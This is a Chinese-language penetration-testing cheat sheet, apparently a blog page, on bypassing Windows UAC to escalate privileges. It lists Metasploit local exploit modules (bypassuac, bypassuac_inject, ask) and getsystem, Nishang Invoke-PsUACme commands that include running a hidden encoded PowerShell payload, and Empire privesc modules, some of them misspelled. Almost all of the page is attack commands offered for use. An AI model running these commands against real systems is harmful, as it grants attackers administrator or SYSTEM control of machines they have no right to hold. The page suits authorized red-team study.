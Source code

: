 ### [](#empire-%E5%86%85%E7%BD%AE%E6%A8%A1%E5%9D%97)Empire 内置模块

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>usermode privesc/powerup/xxxx<br>``` |

## [](#%E7%BB%95%E8%BF%87-uac-%E6%8F%90%E6%9D%83)绕过 UAC 提权

### [](#bypassuac-%E6%A8%A1%E5%9D%97)bypassuac 模块

前提：当前用户必须在管理员组中

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```fallback<br>exploit/windows/local/bypassuac<br>exploit/windows/local/bypassuac_inject<br>getsystem<br>``` |

### [](#runas-%E6%A8%A1%E5%9D%97)RunAs 模块

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>exploit/windows/local/ask<br>``` |

弹出一个 UAC 框，用户点击后会弹回一个高权限的 shell

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>getuid 查看权限，如果是普通用户权限，执行 getsystem 提权<br>``` |

### [](#nishang-%E4%B8%AD%E7%9A%84-invoke-psuacme-%E6%A8%A1%E5%9D%97)Nishang 中的 Invoke-PsUACme 模块

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```cmd<br>Invoke-PsUACme -Verbose ## 使用Sysprep方法并执行默认的Payload<br>Invoke-PsUACme -method oobe -Verbose ## 使用oobe方法方法并执行默认的Payload<br>Invoke-PsUACme -Payload "powershell -windowstyle hidden -e YourEncodedPayload"<br>## 使用-Payload参数，可以自行指定要执行的Payload<br>``` |

### [](#empire-%E4%B8%AD%E7%9A%84-bypassuac-%E6%A8%A1%E5%9D%97)Empire 中的 bypassuac 模块

#### [](#bypassuac-%E6%A8%A1%E5%9D%97-1)bypassuac 模块

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```cmd<br>usemode privesc/bypassuac<br>execute<br>``` |

#### [](#bypassuac_wscript-%E6%A8%A1%E5%9D%97)bypassuac\_wscript 模块

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>usemode privesc/bypassuac_wscript<br>execute<br>``` |
